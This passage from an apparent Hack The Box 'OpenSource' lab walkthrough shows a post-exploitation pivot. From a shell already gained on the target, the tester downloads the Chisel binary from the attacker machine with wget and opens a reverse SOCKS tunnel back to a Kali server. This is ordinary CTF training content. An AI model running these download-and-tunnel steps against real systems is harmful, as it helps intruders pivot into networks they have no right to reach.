 ```sh

┌──(root㉿kali)-[~/htb/opensource]
└─# gunzip chisel_1.7.7_linux_amd64.gz
```

Start Chisel on Kali listening on port 4444 and with reverse port forwarding enabled:

```sh
┌──(root㉿kali)-[~/htb/opensource]
└─# ./chisel_1.7.7_linux_amd64 server --reverse --port 4444
2022/06/08 22:09:18 server: Reverse tunnelling enabled
2022/06/08 22:09:18 server: Fingerprint 8ymq6peW4qfi+AJoA9KllYq7DGw0+LFnmbqIuXNpJ4k=
2022/06/08 22:09:18 server: Listening on http://0.0.0.0:4444
2022/06/08 22:11:01 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Now start a web server so we can pull that file over to our target box:

```sh
┌──(root㉿kali)-[~/htb/opensource]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Switch back to our shell on the box, grab the file and start Chisel in client mode:

```sh
/app # cd /tmp
/tmp # wget http://10.10.14.166:8000/chisel_1.7.7_linux_amd64
Connecting to 10.10.14.166:8000 (10.10.14.166:8000)
saving to 'chisel_1.7.7_linux_amd64'
chisel_1.7.7_linux_a  12% |***                             |  955k  0:00:07 ETA
chisel_1.7.7_linux_a  42% |*************                   | 3329k  0:00:02 ETA
chisel_1.7.7_linux_a  72% |***********************         | 5680k  0:00:01 ETA
chisel_1.7.7_linux_a 100% |********************************| 7888k  0:00:00 ETA
'chisel_1.7.7_linux_amd64' saved

/tmp # chmod +x chisel_1.7.7_linux_amd64

/tmp # ./chisel_1.7.7_linux_amd64 client 10.10.14.166:4444 R:socks
2022/06/08 21:11:01 client: Connecting to ws://10.10.14.166:4444
2022/06/08 21:11:01 client: Connected (Latency 20.715259ms)
```

Here we've told Chisel to connect to Kali on IP 10.10.14.166 port 4444. The R:socks options is used for the reverse connection. See the Chisel man page here:

```text
When the chisel server has --reverse enabled, remotes can
be prefixed with R to denote that they are reversed. That
is, the server will listen and accept connections, and they
will be proxied through the client which specified the remote.
Reverse remotes specifying "R:socks" will listen on the server's
default socks port (1080) and terminate the connection at the
client's internal SOCKS5 proxy.
```
